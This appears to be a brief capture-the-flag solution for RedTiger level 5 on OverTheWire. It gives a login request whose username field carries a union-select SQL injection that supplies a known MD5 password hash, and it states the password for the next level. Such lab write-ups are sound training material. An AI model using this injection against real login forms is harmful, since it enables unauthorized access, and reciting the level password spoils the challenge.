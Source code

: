 
http://redtiger.labs.overthewire.org/level5.php?mode=login

`login=Login&password=1&username=' union select 1, 'c4ca4238a0b923820dcc509a6f75849b'#`

<img src="http://i.imgur.com/dQgJshq.jpg">

The password for the next level is: for_more_bugs_update_to_php7
